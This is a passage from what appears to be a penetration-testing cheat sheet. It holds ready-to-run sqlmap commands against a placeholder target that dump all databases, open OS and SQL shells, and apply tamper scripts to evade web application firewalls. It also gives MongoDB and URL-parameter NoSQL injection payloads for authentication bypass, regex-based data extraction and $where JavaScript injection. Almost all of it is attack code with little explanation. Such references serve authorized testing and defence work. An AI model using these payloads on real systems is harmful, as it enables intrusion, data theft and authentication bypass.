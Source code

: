 ```bash

# Dump all
sqlmap -u "http://target.com/page?id=1" --dump-all

# OS shell
sqlmap -u "http://target.com/page?id=1" --os-shell

# SQL shell
sqlmap -u "http://target.com/page?id=1" --sql-shell
```

### Tamper Scripts

```bash
# Bypass WAF
sqlmap -u "http://target.com/page?id=1" --tamper=space2comment

# Multiple tamper scripts
sqlmap -u "http://target.com/page?id=1" --tamper=space2comment,between

# Common tamper scripts:
# - space2comment: Replace space with comments
# - between: Replace equals with BETWEEN
# - charencode: URL encode characters
# - randomcase: Random case for keywords
```

## NoSQL Injection

### MongoDB Injection

```javascript
// Authentication bypass
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt": ""}, "password": {"$gt": ""}}

// Extract data
{"username": {"$regex": "^admin"}}
{"username": {"$regex": "^a"}}  // Brute force first character

// JavaScript injection
{"username": "admin", "password": {"$where": "return true"}}
```

### NoSQL Injection in URLs

```
# Authentication bypass
username[$ne]=admin&password[$ne]=pass

# Regex injection
username[$regex]=^admin&password[$ne]=pass

# Greater than
username[$gt]=&password[$gt]=
```
